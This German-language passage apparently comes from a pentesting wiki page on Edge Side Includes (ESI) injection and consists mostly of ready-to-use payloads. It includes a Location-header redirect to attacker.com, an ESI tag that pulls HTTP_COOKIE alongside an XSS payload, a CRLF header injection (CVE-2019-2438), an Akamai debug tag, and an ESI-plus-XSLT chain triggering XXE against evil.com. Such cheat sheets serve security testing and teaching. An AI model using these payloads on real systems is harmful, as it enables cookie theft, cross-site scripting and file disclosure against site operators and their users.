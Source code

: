 Das Folgende wird einen `Location`-Header zur Antwort hinzufügen
```bash
<!--esi $add_header('Location','http://attacker.com') -->
```
#### Header hinzufügen

- Header in erzwungenem Request hinzufügen
```xml
<esi:include src="http://example.com/asdasd">
<esi:request_header name="User-Agent" value="12345"/>
</esi:include>
```
- Fügen Sie einen Header in der Antwort hinzu (nützlich, um "Content-Type: text/json" in einer Antwort mit XSS zu umgehen)
```bash
<!--esi/$add_header('Content-Type','text/html')/-->

<!--esi/$(HTTP_COOKIE)/$add_header('Content-Type','text/html')/$url_decode($url_decode('"><svg/onload=prompt(1)>'))/-->

# Check the number of url_decode to know how many times you can URL encode the value
```
#### CRLF in Add header (**CVE-2019-2438**)
```xml
<esi:include src="http://example.com/asdasd">
<esi:request_header name="User-Agent" value="12345
Host: anotherhost.com"/>
</esi:include>
```
#### Akamai-Debug

Dies sendet Debug-Informationen, die in der Antwort enthalten sind:
```xml
<esi:debug/>
```
### ESI + XSLT = XXE

Es ist möglich, die **`eXtensible Stylesheet Language Transformations (XSLT)`** Syntax in ESI zu verwenden, indem der Parameter **`dca`** Wert als **`xslt`** angegeben wird. Dies könnte es ermöglichen, **XSLT** zu missbrauchen, um eine XML External Entity-Schwachstelle (XXE) zu erstellen und auszunutzen:
```xml
<esi:include src="http://host/poc.xml" dca="xslt" stylesheet="http://host/poc.xsl" />
```
XSLT-Datei:
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE xxe [<!ENTITY xxe SYSTEM "http://evil.com/file" >]>
<foo>&xxe;</foo>
```
Überprüfen Sie die XSLT-Seite:

{{#ref}}
xslt-server-side-injection-extensible-stylesheet-language-transformations.md
{{#endref}}
